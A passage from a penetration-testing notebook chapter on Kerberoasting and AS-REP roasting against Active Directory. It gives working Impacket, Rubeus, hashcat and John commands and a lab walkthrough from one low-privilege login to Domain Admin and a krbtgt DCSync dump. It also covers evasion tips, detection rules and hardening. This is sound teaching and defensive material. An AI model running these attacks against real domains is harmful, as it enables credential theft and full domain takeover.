Notice you learned three things at once: `svc_legacy` is AS-REP roastable, `admin/jbloggs/backup` exist but are protected, and `notauser` doesn't exist. That last line is free **username enumeration**.

---

## Part 8: Target Triage — Not All Roasts Are Worth Cracking

You will frequently pull 30+ Kerberoast hashes. Cracking all of them blindly wastes GPU time. Prioritise using the metadata the tools already gave you.

Rank targets by these signals (high to low value):

1. **Group membership** — an account in `Domain Admins`, `Enterprise Admins`, `Account Operators`, `Backup Operators`, or with juicy ACLs (from BloodHound, Chapter 2) is worth cracking first. `GetUserSPNs.py` prints `MemberOf`; cross-reference with BloodHound.
2. **PwdLastSet age** — a password set years ago and never rotated is far more likely to be a weak, human-chosen string. `Rubeus /pwdsetbefore:` and the `PasswordLastSet` column let you filter.
3. **Naming** — `svc_backup`, `sqlsvc`, `svc-jenkins` scream "set-and-forgotten service account."
4. **etype** — RC4 (23) cracks vastly faster than AES; if you're time-boxed, crack the RC4 ones first.
5. **Not a honeypot** — beware planted decoy SPN accounts (Part 11). A brand-new account with an SPN, no logon history, and an absurdly obvious name may be bait wired to alert on any ticket request.

| Signal | Where you see it | Interpretation |
|---|---|---|
| `MemberOf: Domain Admins` | GetUserSPNs / BloodHound | Crack **first** — instant DA if cracked |
| `PwdLastSet: 2018–2020` | Rubeus / GetUserSPNs | Likely weak, un-rotated |
| etype 23 (RC4) | hash prefix `$krb5tgs$23$` | Fast crack, prioritise if time-boxed |
| etype 18 (AES256) | `$krb5tgs$18$` | Slow crack, deprioritise unless high value |
| No LastLogon, new account | GetUserSPNs LastLogon | Possible honeypot — investigate before roasting |

**Red team usage:** roast quietly and selectively. Instead of `kerberoast` (whole domain), use `/user:` or `-request-user` against the two or three accounts BloodHound already told you are privileged. Fewer requests, less noise, same payoff.

---

## Part 9: Cracking — hashcat and John From Scratch

You now have hashes. Time to crack. Two tools dominate.

### 9.1 hashcat basics (the first time you meet it)

**What it is:** hashcat is the fastest open-source password recovery tool, GPU-accelerated, supporting hundreds of hash types ("modes"). **Why it exists:** to turn "I have a hash" into "I have the password" as fast as silicon allows. **Install on Kali:** `sudo apt install hashcat` (or download from hashcat.net; on real cracking rigs you run the binary with proper GPU drivers). **Verify GPU:** `hashcat -I` lists devices.

The modes you need in this chapter:

| Mode | Hash format | Attack |
|---|---|---|
| **13100** | `$krb5tgs$23$*...` | Kerberoast, RC4 |
| **19600** | `$krb5tgs$17$...` | Kerberoast, AES128 |
| **19700** | `$krb5tgs$18$...` | Kerberoast, AES256 |
| **18200** | `$krb5asrep$23$...` | AS-REP Roast, RC4 |
| **19800** | `$krb5asrep$17$...` | AS-REP Roast, AES128 |
| **19900** | `$krb5asrep$18$...` | AS-REP Roast, AES256 |

The number is baked into the hash prefix: `$krb5tgs$23$` → RC4 Kerberoast → mode 13100. `$krb5asrep$23$` → RC4 AS-REP → mode 18200. Read the `$..$NN$` and the mode picks itself.

**Wordlist attack (the default, and usually enough):**

```bash
hashcat -m 13100 -a 0 hashes.kerberoast /usr/share/wordlists/rockyou.txt \
        -r /usr/share/hashcat/rules/best64.rule -O -w 3
```

| Flag | Meaning |
|---|---|
| `-m 13100` | Hash mode (RC4 Kerberoast) |
| `-a 0` | Attack mode 0 = straight wordlist |
| `hashes.kerberoast` | The hash file |
| `rockyou.txt` | The wordlist |
| `-r best64.rule` | Apply mutation rules (append digits, capitalise, leetspeak) — vastly widens coverage |
| `-O` | Optimised kernels (faster, caps password length ~ usually fine) |
| `-w 3` | Workload profile 3 (high) — push the GPU |

**Sample cracking run:**

```
$ hashcat -m 13100 -a 0 hashes.kerberoast rockyou.txt -r best64.rule -O -w 3
hashcat (v6.2.6) starting

* Device #1: NVIDIA GeForce RTX 4090, 24564/24564 MB

$krb5tgs$23$*svc_sql$CORP.LOCAL$MSSQLSvc...:Summer2019!

Session..........: hashcat
Status...........: Cracked
Recovered........: 1/2 (50.00%) Digests
Speed.#1.........:  1123.4 MH/s (RC4)
```

`svc_sql : Summer2019!` — a Domain Admin service account, cracked in seconds because RC4 + weak password. Contrast the AES256 timing:

```
$ hashcat -m 19700 aes.kerberoast rockyou.txt -w 3
Speed.#1.........:   2185.9 kH/s   (AES256 — ~500,000x slower than RC4)
```

Same wordlist, but AES256's PBKDF2 turns billions/sec into thousands/sec. This is *exactly* why attackers force RC4 and why defenders force AES.

**AS-REP crack** is identical but mode 18200:

```bash
hashcat -m 18200 -a 0 asrep.hashes rockyou.txt -r best64.rule -O -w 3
```

**Reading results later:** `hashcat -m 13100 hashes.kerberoast --show` prints cracked hash:password pairs from the potfile without re-running.

### 9.2 John the Ripper (the alternative)

**What it is:** John the Ripper (the community "jumbo" build) is the other classic cracker, CPU-first but with formats for Kerberos. **Install:** `sudo apt install john`. It auto-detects the format from the hash:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast
john --wordlist=rockyou.txt --rules=Jumbo asrep.hashes
john --show hashes.kerberoast          # print cracked results
```

John names the formats `krb5tgs` and `krb5asrep`; you can force with `--format=krb5tgs`. On a laptop with no GPU, John is often more convenient; on a cracking rig, hashcat wins on raw speed.

### 9.3 A note on realistic expectations

RC4 Kerberoast + rockyou + rules cracks a huge fraction of real-world service accounts because those passwords were chosen by humans years ago. AES + a genuinely random 25+ char password will *not* fall to a wordlist — and shouldn't. If a hash resists rockyou + best64 + a few targeted rules, escalate to a bigger list (CrackStation, weakpass) or a mask attack for known patterns (`-a 3 '?u?l?l?l?l?l?l20?d?d'` for `Summerxx19`-style), but accept that a well-configured account is meant to be uncrackable — that's the defence working.

---

## Part 10: Fully Worked Lab — Foothold to Domain Admin via Kerberoasting

This lab is reproducible in the Part 12 lab build. Scenario: you have a single low-priv credential `corp.local\jbloggs : Password123` and network reachability to DC `10.10.10.10`. Goal: escalate.

**Step 0 — Sync time (skip and you'll fail with skew errors):**

```bash
sudo ntpdate 10.10.10.10
```

**Step 1 — Confirm the credential works and enumerate SPN accounts (list only, no roast yet):**

```bash
impacket-GetUserSPNs corp.local/jbloggs:'Password123' -dc-ip 10.10.10.10
```

```
ServicePrincipalName            Name      MemberOf                                       PasswordLastSet
------------------------------  --------  ---------------------------------------------  -------------------
MSSQLSvc/sql01.corp.local:1433  svc_sql   CN=Domain Admins,CN=Users,DC=corp,DC=local     2019-03-14 09:02:11
HTTP/web01.corp.local           svc_web                                                  2024-06-01 08:00:00
```

Triage says: **`svc_sql` is in Domain Admins and its password is from 2019.** That is the target.

**Step 2 — Roast just that account (targeted, quiet):**

```bash
impacket-GetUserSPNs corp.local/jbloggs:'Password123' -dc-ip 10.10.10.10 \
    -request-user svc_sql -outputfile svc_sql.krb
```

```
[*] Getting TGT for jbloggs
[*] Requesting TGS for MSSQLSvc/sql01.corp.local:1433
$krb5tgs$23$*svc_sql$CORP.LOCAL$MSSQLSvc/sql01.corp.local:1433*$4f1c...<blob>...b7a9
```

**Step 3 — Crack it:**

```bash
hashcat -m 13100 -a 0 svc_sql.krb /usr/share/wordlists/rockyou.txt \
        -r /usr/share/hashcat/rules/best64.rule -O -w 3
```

```
$krb5tgs$23$*svc_sql$CORP.LOCAL$MSSQLSvc...:Summer2019!
Status...........: Cracked
```

You now hold `svc_sql : Summer2019!` — a Domain Admin.

**Step 4 — Validate and use the credential (Part 12's DA proof):**

```bash
# confirm it's really DA by touching the DC's admin share
crackmapexec smb 10.10.10.10 -u svc_sql -p 'Summer2019!'
# CORP.LOCAL\svc_sql:Summer2019! (Pwn3d!)   <- CME marks admin with (Pwn3d!)

# dump the domain hashes with a DA credential (secretsdump / DCSync)
impacket-secretsdump corp.local/svc_sql:'Summer2019!'@10.10.10.10 -just-dc-user krbtgt
```

The `(Pwn3d!)` from CrackMapExec confirms local admin on the DC. `secretsdump` with a DA credential performs DCSync to pull the `krbtgt` hash — the key to the whole domain (Golden Ticket territory, a later chapter). **Foothold → Domain Admin in four steps and about ten minutes, without dropping a single binary on a host.** That is why this attack is feared.

**Parallel AS-REP branch (same lab):** you also have a user list from Chapter 3's `kerbrute`. Blind-roast it:

```bash
impacket-GetNPUsers corp.local/ -dc-ip 10.10.10.10 -usersfile users.txt \
    -no-pass -format hashcat -outputfile asrep.hashes
hashcat -m 18200 asrep.hashes /usr/share/wordlists/rockyou.txt -r best64.rule -O -w 3
```

If `svc_legacy` had pre-auth disabled and a weak password, you'd crack a second account with **zero** credentials required.

---

### 9.4 Troubleshooting the roast — errors you will actually hit

Roasting from Linux fails in a small number of predictable ways. Learn the error text once and you'll never lose an hour to it:

| Error / symptom | Cause | Fix |
|---|---|---|
| `KRB_AP_ERR_SKEW (Clock skew too great)` | Your box's clock differs from the DC by > 5 min | `sudo ntpdate <DC-IP>`; disable NTP after so it can't drift back |
| `KDC_ERR_PREAUTH_REQUIRED` | (AS-REP) the account *does* require pre-auth — not roastable | Expected for protected accounts; use it as user-enum signal |
| `KDC_ERR_C_PRINCIPAL_UNKNOWN` | The username doesn't exist | Fix the name; also a free user-enum result |
| `KDC_ERR_WRONG_REALM` / `No answer` | Wrong `-dc-ip` or realm case | Use FQDN realm in UPPERCASE, correct DC IP |
| Empty result from `GetUserSPNs` | No user accounts have SPNs, or you lack read to `servicePrincipalName` | Confirm cred works; try Rubeus `/stats` from Windows |
| hashcat: `No hashes loaded` | Wrapped/mangled hash line, wrong mode, stray whitespace | Use `/nowrap`; verify prefix→mode; `dos2unix` the file |
| hashcat: `Token length exception` | Hash string truncated or split across lines | Re-export unwrapped; one hash per single line |
| Crack never lands on a known-weak pw | Wrong mode (AES hash run as RC4) or missing rules | Match `$..$NN$` to mode; add `-r best64.rule` |

### 9.5 A real-world grounding

Kerberoasting was first publicly detailed by Tim Medin in 2014 ("Attacking Microsoft Kerberos: Kicking the Guard Dog of Hades"), and AS-REP roasting followed as the natural companion once tooling matured. Neither maps to a single CVE, because — as stressed throughout — Kerberoasting is Kerberos behaving *as designed* and AS-REP roasting is a *configuration* weakness, not a code defect. That is exactly why they remain devastating a decade later: there is no patch to apply, only configuration and detection to get right. In real incident data, cracked service accounts remain one of the most common privilege-escalation vectors in ransomware intrusions, precisely because so many organisations still run pre-2016 service accounts with RC4 enabled and passwords set once, years ago, and never rotated. The defensive migration to gMSA/dMSA and AES-only Kerberos (Part 11) is the single highest-value hardening most AD environments can still make.

---

## Part 11: Detection & Defense Angle

This is the one consolidated defensive section, per the notebook's convention. Roasting cannot be "patched" (Kerberoasting) or is trivially misconfigured back on (AS-REP), so detection and hardening are the real controls. Everything here is what a blue team or a detection-minded pentester should implement and what a red team must evade.

### 11.1 The telemetry: Event ID 4769 (and 4768)

Every service-ticket request the DC handles generates a **Windows Security event 4769 (A Kerberos service ticket was requested)** on the domain controller. The fields that matter:

| 4769 field | Attack meaning |
|---|---|
| `Service Name` | The SPN requested — a roast requests many different SPNs in a burst |
| `Account Name` | Who requested it (the roasting user) |
| `Ticket Encryption Type` | **`0x17` (RC4)** is the red flag in an AES environment |
| `Ticket Options` | Roasting tools set characteristic flags |
| `Client Address` | Where the request came from |

AS-REP roasting shows up in **Event 4768 (A Kerberos authentication ticket (TGT) was requested)** with **`Pre-Authentication Type: 0`** — a TGT issued with *no* pre-auth is exactly the AS-REP-roastable condition and is highly abnormal.

### 11.2 High-fidelity detections

- **RC4 in an AES world:** a 4769 with `Ticket Encryption Type 0x17` for an account that supports AES is a near-certain downgrade attack. If you've disabled RC4 domain-wide, *any* 0x17 is suspect.
- **Burst of distinct SPNs from one account:** one user requesting service tickets for many different SPNs in a short window is the signature of a whole-domain `kerberoast`/`GetUserSPNs`. Threshold on distinct `Service Name` per `Account Name` per N minutes.
- **Pre-auth-type-0 TGT (4768):** flags AS-REP roasting directly.
- **Honeypot SPN:** create a decoy service account with an SPN, a strong random password, and *no real service*. No legitimate client will ever request its ticket, so a 4769 for that SPN is a 100%-fidelity "someone is roasting" alert. This is the single best detection in Part 11 — cheap, false-positive-free.

A Sigma-style sketch for the RC4 downgrade:

```yaml
title: Potential Kerberoasting via RC4 Ticket Request
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4769
    TicketEncryptionType: '0x17'
    TicketOptions: '0x40810000'
  filter:
    ServiceName|endswith: '$'      # exclude machine accounts
  condition: selection and not filter
level: high
```

**Red team usage / evasion:** this is precisely why `/rc4opsec`, `/pwdsetbefore`, `/user:` and single-SPN roasts exist. Roast one privileged account, use AES if the domain is AES-only (accept the slower crack), avoid honeypot-looking SPNs, and spread requests over time. The loudest possible move is `Rubeus kerberoast` (whole domain, RC4) — never do that in a monitored environment.

### 11.3 Hardening — remove the attack surface



Concrete controls:

| Control | Effect | How |
|---|---|---|
| **Group Managed Service Accounts (gMSA)** / **delegated MSA (dMSA)** | Password becomes a 120-char, auto-rotated (every 30 days) random value → effectively uncrackable | Migrate service accounts to gMSA; app must support it |
| **Disable RC4, force AES** | Removes the fast-crack path; makes any RC4 request an alarm | Set `msDS-SupportedEncryptionTypes`; GPO "Network security: Configure encryption types allowed for Kerberos" (AES only) |
| **Long random passwords on remaining svc accounts** | 25+ chars defeats wordlist + mask attacks | Password policy + rotation for accounts with SPNs |
| **De-privilege service accounts** | If cracked, `svc_sql` should NOT be Domain Admin | Remove svc accounts from DA/EA; least privilege |
| **Enable pre-authentication everywhere** | Kills AS-REP roasting | Clear `DONT_REQ_PREAUTH` on every account; audit `userAccountControl` |
| **Honeypot SPN account** | 100%-fidelity roast detection | Decoy account + SIEM rule on its SPN in 4769 |

**IR use case:** if you find a 4769 storm of RC4 tickets or a pre-auth-type-0 TGT for a sensitive account, treat it as active credential theft: assume the targeted service-account hash may be cracked, force-rotate that account's password immediately, and hunt for the source `Client Address`.

### 11.4 The gMSA/dMSA migration — the strategic fix

The durable answer to Kerberoasting is to stop having crackable service-account passwords at all. **gMSA** accounts store a 240-byte random password blob (`msDS-ManagedPassword`) that AD rotates automatically; humans never see or set it. A gMSA is still technically Kerberoastable, but the returned hash is backed by a 120-character random key — cracking it is computationally hopeless. Newer **dMSA (delegated Managed Service Accounts)**, introduced with Windows Server 2025, extend this and let you migrate an existing standard service account into a managed one while preserving its SPNs. (Note: dMSA has its own abuse research around migration ACLs — "BadSuccessor" — so implement it carefully, but for *roasting* specifically it removes the weak-password problem.)

---

## Part 12: Build the Lab

Do all of the above against infrastructure you own. Minimum viable roasting lab:

1. **A Windows Server DC.** Install AD DS, promote to a DC for `corp.local`. Any recent Windows Server evaluation ISO works (180-day eval).
2. **Create a weak service account:**

   ```powershell
   New-ADUser -Name svc_sql -SamAccountName svc_sql -AccountPassword (ConvertTo-SecureString 'Summer2019!' -AsPlainText -Force) -Enabled $true -PasswordNeverExpires $true
   setspn -A MSSQLSvc/sql01.corp.local:1433 svc_sql
   Add-ADGroupMember -Identity 'Domain Admins' -Members svc_sql     # deliberately over-privileged, for the lab
   ```

3. **Create an AS-REP-roastable account:**

   ```powershell
   New-ADUser -Name svc_legacy -SamAccountName svc_legacy -AccountPassword (ConvertTo-SecureString 'Welcome1' -AsPlainText -Force) -Enabled $true
   Set-ADAccountControl -Identity svc_legacy -DoesNotRequirePreAuth $true
   ```

4. **Create a low-priv user** `jbloggs : Password123` as your foothold.
5. **A Kali attack box** on the same network with Impacket + hashcat.
6. **(Optional) a honeypot SPN** to practise detection: create `svc_honey`, give it an SPN, a 30-char random password, no group memberships, and watch for a 4769 on its SPN when you roast the domain.

Pre-built alternatives that already contain roastable accounts: **TryHackMe "Attacktive Directory"** and **"Post-Exploitation Basics"**, **HackTheBox "Forest"** (AS-REP roast) and **"Active"** (Kerberoast via GPP + GetUserSPNs), and the **GOAD (Game of Active Directory)** lab, which is purpose-built and packed with roastable accounts.

---

## Part 13: Final Revision / Summary

The mental model, compressed:

- **Kerberos hands out password-encrypted blobs.** The AS-REP enc-part is encrypted with the *client's* key; the TGS-REP service ticket is encrypted with the *service account's* key.
- **Kerberoasting** = any authenticated user requests a service ticket for any SPN and cracks the service account's key offline. It exploits *design* (the KDC issues tickets without checking service authorisation). Population: user accounts with an SPN.
- **AS-REP Roasting** = request an AS-REP for an account with pre-authentication disabled and crack that account's key offline. It exploits *misconfiguration* (`DONT_REQ_PREAUTH`). Needs no creds for vulnerable accounts.
- **RC4 (etype 23) cracks vastly faster than AES (17/18)** because RC4's key is the bare NT hash while AES uses salted PBKDF2. Attackers downgrade to RC4; defenders force AES so any RC4 request is an alarm.
- **Tools:** Rubeus (`kerberoast`, `asreproast`) on Windows as the current user; Impacket `GetUserSPNs.py` / `GetNPUsers.py` from Linux with explicit creds. Crack with hashcat modes **13100** (Kerberoast RC4), **19700** (AES256), **18200** (AS-REP RC4), or John's `krb5tgs`/`krb5asrep`.
- **Triage before cracking:** privileged group membership + old `PwdLastSet` + RC4 = crack first. Watch for honeypot SPNs.
- **Defence:** gMSA/dMSA, disable RC4/force AES, long random service passwords, enable pre-auth everywhere, de-privilege service accounts, and a honeypot SPN wired to 4769. Detect via **4769** (RC4 etype `0x17`, SPN bursts) and **4768** (pre-auth type 0).
- **Why it matters:** offline, low-noise, no-lockout, often no-privilege, and frequently a straight line from one weak cred to Domain Admin.

Memory hook: **"Roast the SPN, roast the no-preauth; RC4 is fast, AES is a trap for the attacker; crack offline; then the service account was Domain Admin anyway."**

---

## Part 14: Cheat Sheet / Quick Reference

**Enumerate (no roast):**

```bash
# Linux
impacket-GetUserSPNs corp.local/user:'pass' -dc-ip 10.10.10.10
# Windows
Rubeus.exe kerberoast /stats
```

**Kerberoast:**

```bash
# Linux, whole domain
impacket-GetUserSPNs corp.local/user:'pass' -dc-ip 10.10.10.10 -request -outputfile kerb.hashes
# Linux, single account
impacket-GetUserSPNs corp.local/user:'pass' -dc-ip 10.10.10.10 -request-user svc_sql -outputfile svc.krb
# Windows, opsec-safe
Rubeus.exe kerberoast /rc4opsec /pwdsetbefore:01-01-2023 /nowrap /outfile:kerb.hashes
# Windows, single SPN
Rubeus.exe kerberoast /spn:MSSQLSvc/sql01.corp.local:1433 /nowrap
```

**AS-REP Roast:**

```bash
# Linux, with cred (enumerate + roast preauth-off accounts)
impacket-GetNPUsers corp.local/user:'pass' -dc-ip 10.10.10.10 -request -format hashcat -outputfile asrep.hashes
# Linux, no creds (blind spray + user enum)
impacket-GetNPUsers corp.local/ -dc-ip 10.10.10.10 -usersfile users.txt -no-pass -format hashcat -outputfile asrep.hashes
# Windows
Rubeus.exe asreproast /format:hashcat /nowrap /outfile:asrep.hashes
```

**Crack:**

```bash
hashcat -m 13100 kerb.hashes rockyou.txt -r /usr/share/hashcat/rules/best64.rule -O -w 3   # Kerberoast RC4
hashcat -m 19700 aes.hashes  rockyou.txt -w 3                                               # Kerberoast AES256
hashcat -m 18200 asrep.hashes rockyou.txt -r best64.rule -O -w 3                            # AS-REP RC4
hashcat -m 13100 kerb.hashes --show                                                        # show cracked
john --wordlist=rockyou.txt kerb.hashes                                                     # John auto-detect
```

**hashcat mode ↔ hash prefix:**

| Prefix | Attack / etype | Mode |
|---|---|---|
| `$krb5tgs$23$` | Kerberoast RC4 | 13100 |
| `$krb5tgs$17$` | Kerberoast AES128 | 19600 |
| `$krb5tgs$18$` | Kerberoast AES256 | 19700 |
| `$krb5asrep$23$` | AS-REP RC4 | 18200 |
| `$krb5asrep$17$` | AS-REP AES128 | 19800 |
| `$krb5asrep$18$` | AS-REP AES256 | 19900 |

**Key LDAP filters:**

```
# Kerberoastable user accounts (user objects with an SPN)
(&(samAccountType=805306368)(servicePrincipalName=*))
# AS-REP roastable accounts (DONT_REQ_PREAUTH set)
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
```

**Post-crack DA proof:**

```bash
crackmapexec smb 10.10.10.10 -u svc_sql -p 'Summer2019!'                      # look for (Pwn3d!)
impacket-secretsdump corp.local/svc_sql:'Summer2019!'@10.10.10.10 -just-dc     # DCSync
```

**Common pitfalls:**

- **Clock skew (`KRB_AP_ERR_SKEW`)** — sync time to the DC before roasting from Linux.
- **Wrapped hashes** — always use Rubeus `/nowrap`; a line-wrapped hash silently fails to parse.
- **Wrong mode** — read the `$..$NN$` prefix; 23=RC4, 17=AES128, 18=AES256.
- **Case-mangling the username** in AES hashes — the salt depends on it; paste exactly.
- **Roasting the whole domain in a monitored env** — use targeted `/user:` / `-request-user` and `/rc4opsec`.
- **Cracking machine-account tickets** (`$`-suffixed) — their 120-char passwords won't crack; skip them.
- **Assuming AES = safe** — a weak AES password still falls, just slower; still crack high-value AES hashes.

---

## Part 15: Practice Labs & Resources

Train this exact skill on purpose-built targets:

- **TryHackMe — "Attacktive Directory"**: a guided room that walks Kerberoasting and AS-REP roasting with `GetNPUsers`, `GetUserSPNs`, and hashcat against a lab DC. The canonical first hands-on for this chapter.
- **TryHackMe — "Post-Exploitation Basics"** and **"Kerberos Attacks" / "Attacking Kerberos"**: dedicated Kerberos rooms covering roasting plus delegation and ticket attacks.
- **HackTheBox — "Forest"**: classic AS-REP roasting box (`svc-alfresco` has pre-auth disabled) → crack → enumerate → escalate.
- **HackTheBox — "Active"**: Kerberoast `Administrator`-adjacent SQL service account after grabbing creds from Group Policy Preferences; end-to-end `GetUserSPNs` + hashcat.
- **HackTheBox — "Sauna"**: AS-REP roasting as the intended foothold.
- **GOAD (Game of Active Directory)**: self-hosted multi-domain AD lab, deliberately riddled with roastable and pre-auth-disabled accounts, plus trusts to practise cross-domain roasting.
- **PortSwigger / picoCTF**: not directly applicable — roasting is an AD/network attack, so keep AD-specific labs (HTB/THM ProLabs like "Dante" and "Zephyr", and the "Active Directory" learning path) as your practice ground.
- **Vulnerable-by-design:** build the Part 12 lab yourself — nothing teaches the 4769/4768 telemetry better than roasting your own DC while watching the Security event log and your honeypot SPN alert fire.

Next chapter continues the Active Directory attack notebook by moving from cracking service-account passwords to abusing the tickets themselves — delegation attacks and ticket forgery — building directly on the Kerberos protocol model established here.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-active-directory/04-kerberoasting-and-as-rep-roasting-rubeus-and-impacket), with comments and the latest edits.*
